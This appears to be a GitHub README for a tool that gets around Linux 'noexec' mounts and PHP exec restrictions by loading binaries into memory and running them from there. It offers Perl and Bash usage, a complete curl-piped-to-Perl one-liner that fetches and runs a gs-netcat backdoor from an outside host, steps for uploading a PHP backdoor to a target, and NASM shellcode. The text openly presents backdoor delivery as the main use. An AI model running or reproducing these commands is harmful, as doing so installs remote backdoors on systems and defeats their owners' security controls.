 ## Circumvent the `noexec` mount flag on Linux and execute abritrary binaries

This if useful on a Linux system when all writeable locations are mounted with `-o noexec` (including /dev/shm) or to escape PHP's 'exec' restrictions.

Use _one_ of the 3 scripts (perl, bash, php):

- The binary does not need to have +x
- The binary can reside on a noexec-partition
- Mostly the binary can be piped directly from the Internet into the memory (and executed there)
- Works as non-root users
- The PHP variant also circumvents PHP's "exec" restrictions.
- It injects shellcode into the running process and calls [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) and [execveat(2)](https://man7.org/linux/man-pages/man2/execveat.2.html).
- BASH and PHP do not support SYSCALLS. We advanced an old trick.

Read the [circumventing the noexec Article](SOON) for more....

PERL example:
```sh
source memexec-perl.sh
cat /usr/bin/id | memexec -u
```
This was golfed by the fine people on Mastodon ([@acut3hack](https://@acut3hack@infosec.exchange), [@addision](https://@addison@nothing-ever.works), [@ilv](https://@ilv@infosec.exchange))

BASH example (by [@messede-degod](https://github.com/messede-degod):
```sh
source memexec-bash.sh
cat /usr/bin/id | memexec
```

The educated reader understands that this is mostly used to pipe a backdoor from the Internet directly into memory, even when execution is prohobited by `noexec`:
```shell
curl -SsfL https://gsocket.io/bin/gs-netcat_mini-linux-x86_64 | GS_ARGS="-ilDq -s ChangeMe" perl '-efor(319,279){($f=syscall$_,$",1)>0&&last};open($o,">&=".$f);print$o(<STDIN>);exec{"/proc/$$/fd/$f"}X,@ARGV' -- "$@"
```

The PHP variant also circumvents ["shell_exec" restrictions](https://www.cyberciti.biz/faq/linux-unix-apache-lighttpd-phpini-disable-functions/).

1. Upload `memexec.php` and `egg` (your backdoor) onto the target
2. Call `curl -SsfL https://target/memexec.php` to execute `egg`

---

For the druggies among us, here is some NASM to keep you happy.
```nasm
; nasm -felf64 open.nasm && ld open.o &&  ./a.out
; 
global _start
section .text

_start:
    push    0x00676765  ; "egg"
    mov     rax, 0x13f
    mov     rdi, rsp    ; arg 1: name [egg]
    xor     rsi, rsi    ; arg 2: 0 = no MFD_CLOEXEC
    syscall
    mov     r8, rax

    mov     rax, 2
    mov     rdi, rsp    ; arg 1: name [egg]
    xor     rsi, rsi    ; arg 2: 0 = O_RDONLY
    syscall
    mov     r9, rax

loop:
    sub     rsp, 0x400
    xor     rax, rax    ; arg 0: read_NR
    mov     rdi, r9     ; arg 1: FD [egg]
    mov     rsi, rsp    ; arg 2: buffer
    mov     edx, 0x400  ; arg 3: length
    syscall

    cmp     rax, 0x00
    jle     done        ; EOF

    mov     rdx, rax    ; arg 2: length (from read()) 
    mov     eax, 0x01   ; arg 0: write_NR
    mov     rdi, r8     ; arg 3: FD [memfd]
    syscall
    jmp     loop
done:

    mov     rax, 322    ; arg 0: execveat_NR
    mov     rdi, r8     ; arg 1: memfd
    push    0x00
    mov     rsi, rsp    ; arg 2: path (empty string)
    xor     rdx, rdx    ; arg 3: ARGV [NULL]
    xor     rcx, rcx    ; arg 4: ENV ?
    xor     r9, r9      ; arg 4: ENV ?
    xor     r10, r10    ; arg 4: ENV
    mov     r8, 0x1000  ; arg 5: AT_EMPTY_PATH
    syscall
    
    mov     rax, 60
    xor     rdi, rdi
    syscall
```

